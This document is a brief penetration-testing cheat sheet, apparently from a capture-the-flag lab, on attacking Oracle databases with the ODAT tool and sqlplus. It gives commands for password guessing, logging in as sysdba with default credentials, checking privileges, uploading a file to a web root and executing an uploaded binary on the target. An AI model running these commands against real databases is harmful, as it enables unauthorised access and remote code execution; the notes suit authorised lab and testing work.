 --> Odat is used to scan Oracle DBs

## Install

1. download source from: https://github.com/quentinhardy/odat/releases/

2. Down the "odat-linux" .tar.gz
3. Extract and run "odat-libcX.XX-x86_64" as sudo

---

</br>


--> Use Odat for all modules:

```
sudo ./odat-libc2.12-x86_64 all -h 10.10.10.82
```

--> Use Odat for all modules and try to do as sysdba:

```
odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba
```

--> Odat guess passwords using username with multiple passwords

```
sudo ./odat-libc2.12-x86_64 passwordguesser -s 10.10.10.82 -d XEXDB --accounts-file ./accounts/accounts_multiple.txt
```

--> Get user Privs:

```
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --get-privs
```

--> Upload a file to server:

```
./odat-libc2.12-x86_64/odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba --putFile "C:\inetpub\wwwroot" z.txt z.txt

--putFile remotePath remoteFile localFile
```

--> Run a file: (never use quotes for path)

```
./odat-libc2.12-x86_64/odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U Scott -P tiger --sysdba --exec C:\\inetpub\\wwwroot\\ r.exe
```


## SqlPlus

--> Install:

https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573

--> Login:

```
sqlplus scott/tiger@10.10.10.82/XEXDB
```

--> Login as sysdba

```
sqlplus scott/tiger@10.10.10.82/XEXDB as sysdba
```





